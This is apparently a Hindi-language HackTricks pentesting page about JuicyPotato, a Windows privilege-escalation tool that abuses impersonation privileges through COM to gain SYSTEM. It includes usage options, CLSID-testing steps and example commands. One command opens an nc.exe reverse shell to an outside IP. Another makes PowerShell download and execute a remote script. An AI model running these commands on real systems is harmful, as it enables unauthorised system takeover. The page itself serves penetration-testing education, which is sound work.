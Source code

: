 # JuicyPotato

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato काम नहीं करता** Windows Server 2019 और Windows 10 build 1809 के बाद। हालाँकि, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) का उपयोग **समान विशेषाधिकारों का लाभ उठाने और `NT AUTHORITY\SYSTEM`** स्तर की पहुंच प्राप्त करने के लिए किया जा सकता है। _**जांचें:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (सोने के विशेषाधिकारों का दुरुपयोग) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_एक मीठा संस्करण_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, थोड़ा रस के साथ, यानी **एक और स्थानीय विशेषाधिकार वृद्धि उपकरण, Windows सेवा खातों से NT AUTHORITY\SYSTEM**_

#### आप juicypotato को [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts) से डाउनलोड कर सकते हैं

### सारांश <a href="#summary" id="summary"></a>

[**juicy-potato Readme से**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) और इसके [वैरिएंट्स](https://github.com/decoder-it/lonelypotato) विशेषाधिकार वृद्धि श्रृंखला का लाभ उठाते हैं जो [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [सेवा](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) पर आधारित है जिसमें `127.0.0.1:6666` पर MiTM श्रोता होता है और जब आपके पास `SeImpersonate` या `SeAssignPrimaryToken` विशेषाधिकार होते हैं। एक Windows बिल्ड समीक्षा के दौरान, हमने एक सेटअप पाया जहाँ `BITS` जानबूझकर बंद था और पोर्ट `6666` लिया गया था।

हमने [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) को हथियार बनाने का निर्णय लिया: **Juicy Potato को नमस्ते कहें**।

> सिद्धांत के लिए, देखें [Rotten Potato - सेवा खातों से SYSTEM तक विशेषाधिकार वृद्धि](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) और लिंक और संदर्भों की श्रृंखला का पालन करें।

हमने खोजा कि, `BITS` के अलावा, कई COM सर्वर हैं जिनका हम दुरुपयोग कर सकते हैं। उन्हें बस यह करना है:

1. वर्तमान उपयोगकर्ता द्वारा इंस्टेंटिएबल होना चाहिए, सामान्यतः एक "सेवा उपयोगकर्ता" जिसके पास अनुकरण विशेषाधिकार होते हैं
2. `IMarshal` इंटरफ़ेस को लागू करना चाहिए
3. एक ऊँचे उपयोगकर्ता (SYSTEM, Administrator, ...) के रूप में चलाना चाहिए

कुछ परीक्षणों के बाद, हमने कई Windows संस्करणों पर [दिलचस्प CLSID की एक विस्तृत सूची](http://ohpe.it/juicy-potato/CLSID/) प्राप्त की और परीक्षण किया।

### रसदार विवरण <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato आपको अनुमति देता है:

* **लक्ष्य CLSID** _कोई भी CLSID चुनें जो आप चाहते हैं। [_यहाँ_](http://ohpe.it/juicy-potato/CLSID/) _आप OS द्वारा व्यवस्थित सूची पा सकते हैं।_
* **COM सुनने वाला पोर्ट** _COM सुनने वाले पोर्ट को परिभाषित करें जो आप पसंद करते हैं (हार्डकोडेड 6666 के बजाय)_
* **COM सुनने वाला IP पता** _किसी भी IP पर सर्वर को बाइंड करें_
* **प्रक्रिया निर्माण मोड** _अनुकरण किए गए उपयोगकर्ता के विशेषाधिकार के आधार पर आप चुन सकते हैं:_
* `CreateProcessWithToken` (कोई `SeImpersonate` की आवश्यकता है)
* `CreateProcessAsUser` (कोई `SeAssignPrimaryToken` की आवश्यकता है)
* `दोनों`
* **लॉन्च करने के लिए प्रक्रिया** _यदि शोषण सफल होता है तो एक निष्पादन योग्य या स्क्रिप्ट लॉन्च करें_
* **प्रक्रिया तर्क** _लॉन्च की गई प्रक्रिया के तर्कों को अनुकूलित करें_
* **RPC सर्वर पता** _एक गुप्त दृष्टिकोण के लिए आप एक बाहरी RPC सर्वर पर प्रमाणीकरण कर सकते हैं_
* **RPC सर्वर पोर्ट** _यदि आप एक बाहरी सर्वर पर प्रमाणीकरण करना चाहते हैं और फ़ायरवॉल पोर्ट `135` को ब्लॉक कर रहा है तो उपयोगी है…_
* **परीक्षण मोड** _मुख्य रूप से परीक्षण उद्देश्यों के लिए, यानी CLSIDs का परीक्षण करना। यह DCOM बनाता है और टोकन के उपयोगकर्ता को प्रिंट करता है। परीक्षण के लिए_ [_यहाँ देखें_](http://ohpe.it/juicy-potato/Test/)

### उपयोग <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### अंतिम विचार <a href="#final-thoughts" id="final-thoughts"></a>

[**जुसी-पोटैटो Readme से**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

यदि उपयोगकर्ता के पास `SeImpersonate` या `SeAssignPrimaryToken` विशेषाधिकार हैं तो आप **SYSTEM** हैं।

इन सभी COM सर्वरों के दुरुपयोग को रोकना लगभग असंभव है। आप `DCOMCNFG` के माध्यम से इन वस्तुओं के अनुमतियों को संशोधित करने के बारे में सोच सकते हैं लेकिन शुभकामनाएँ, यह चुनौतीपूर्ण होने वाला है।

वास्तविक समाधान संवेदनशील खातों और अनुप्रयोगों की सुरक्षा करना है जो `* SERVICE` खातों के तहत चलते हैं। `DCOM` को रोकना निश्चित रूप से इस शोषण को रोक देगा लेकिन इसके अंतर्निहित OS पर गंभीर प्रभाव पड़ सकता है।

से: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## उदाहरण

नोट: कोशिश करने के लिए CLSIDs की सूची के लिए [इस पृष्ठ](https://ohpe.it/juicy-potato/CLSID/) पर जाएं।

### एक nc.exe रिवर्स शेल प्राप्त करें
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### पॉवरशेल रिव
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### एक नया CMD लॉन्च करें (यदि आपके पास RDP एक्सेस है)

![](<../../.gitbook/assets/image (300).png>)

## CLSID समस्याएँ

अक्सर, JuicyPotato द्वारा उपयोग किया जाने वाला डिफ़ॉल्ट CLSID **काम नहीं करता** और एक्सप्लॉइट विफल हो जाता है। आमतौर पर, एक **काम करने वाले CLSID** को खोजने के लिए कई प्रयासों की आवश्यकता होती है। किसी विशेष ऑपरेटिंग सिस्टम के लिए प्रयास करने के लिए CLSIDs की सूची प्राप्त करने के लिए, आपको इस पृष्ठ पर जाना चाहिए:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **CLSID की जांच करना**

पहले, आपको juicypotato.exe के अलावा कुछ निष्पादन योग्य फ़ाइलों की आवश्यकता होगी।

[Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) डाउनलोड करें और इसे अपने PS सत्र में लोड करें, और [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1) डाउनलोड और निष्पादित करें। यह स्क्रिप्ट परीक्षण के लिए संभावित CLSIDs की एक सूची बनाएगी।

फिर [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)डाउनलोड करें (CLSID सूची और juicypotato निष्पादन योग्य फ़ाइल के लिए पथ बदलें) और इसे निष्पादित करें। यह हर CLSID को आज़माना शुरू कर देगा, और **जब पोर्ट नंबर बदलता है, तो इसका मतलब होगा कि CLSID काम कर गया**।

**पैरामीटर -c का उपयोग करके** काम करने वाले CLSIDs **की जांच करें**

## संदर्भ

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर हमें फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें। 

</details>
{% endhint %}
